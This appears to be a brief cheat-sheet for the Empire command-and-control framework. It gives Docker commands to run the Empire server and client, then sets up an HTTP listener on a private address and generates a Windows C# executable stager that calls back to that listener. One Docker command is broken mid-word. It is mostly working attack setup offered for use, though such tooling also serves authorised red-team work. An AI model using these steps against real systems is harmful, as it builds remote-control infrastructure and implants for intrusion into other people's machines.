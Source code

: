 # empire server

% empire, windows, c2

## pull latest image
```bash
docker pull bcsecurity/empire:latest
```

## server
```bash
docker run -it -p 1337:1337 -p 5000:5000 bcsecurity/empire:latest
```

## server (persistent storage)
```bash
docker create -v <empire_storage_path> --name data bcsecurity/empire:latest && docker run -it -p 1337:1337 -p 5000:5000 --vol:w
umes-from data bcsecurity/empire:latest
```

= empire_storage_path: '/empire'

## client
```bash
empire-client --config ~/empire-client.yaml
```

## http listener
```bash
uselistener http
set Name zephyr
set Host http://10.10.17.58
set Port 80
execute
main
```

## csharp stager
```bash
usestager windows_csharp_exe
set DotNetVersion net35
set Listener zephyr
```